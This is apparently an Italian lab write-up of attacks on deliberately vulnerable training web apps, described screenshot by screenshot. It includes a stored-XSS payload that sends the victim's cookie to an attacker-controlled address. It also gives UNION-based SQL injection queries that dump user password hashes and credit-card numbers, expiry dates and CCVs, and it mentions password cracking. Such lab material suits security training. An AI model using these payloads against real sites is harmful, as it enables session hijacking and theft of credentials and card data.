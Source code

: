 # Screen_1:
utilizzando questo script <script>window.location="http://192.168.50.100:12345/?cookie"+document.cookie</script> nell XSS stored possiamo ottenere il cookie dell utente
# Screen_2:
per utilizzare lo script bisogna prima modificare la lunghezza massima dei caratteri
# Screen_3:
utilizzando questa query %' and 1=0 union select null, table_name from information_schema.tables # in SQL Injection possiamo vedere tutte le tabelle presenti
# Screen_4:
utilizzando questa query %' and 1=0 union select table_name, column_name from information_schema.columns where table_name = 'users' # possiamo vedere tutte le tabelle che hanno come nome users
# Screen_5:
utilizzando questa query 1' union select user, password from users# possiamo vedere tutti gli username e password degli utenti solo che lo password sono sottoforma di hash
# Screen_6:
utilizzando john the ripper possiamo decifrare le password facilmente
# Screen_7:
ricollegandoci allo screen_3 possiamo notare che esiste una tabella chiamata credit_cards e utilizzando questa query %' union select ccnumber, expiration from owasp10.credit_cards# possiamo vedere tutti gli ccnumber e le date di scadenza delle carte
# Screen_8:
invece utilizzando questa query %' union select ccnumber, ccv from owasp10.credit_cards# possiamo vedere anche il CCV cosi da avere tutti i dati per le carte di credito
# Screen_9:
utilizzando questo script 1<script>alert(document.cookie)</script> in SQL Injection (blind) ci apre un pop up con il cookie cio significa che ce anche una vulnerabilità di tipo XSS
# Screen_10
utilizzando questa query 1 OR 1 = 1 UNION SELECT user, password FROM users si riesce a vedere gli username e password anche con il livello a medium
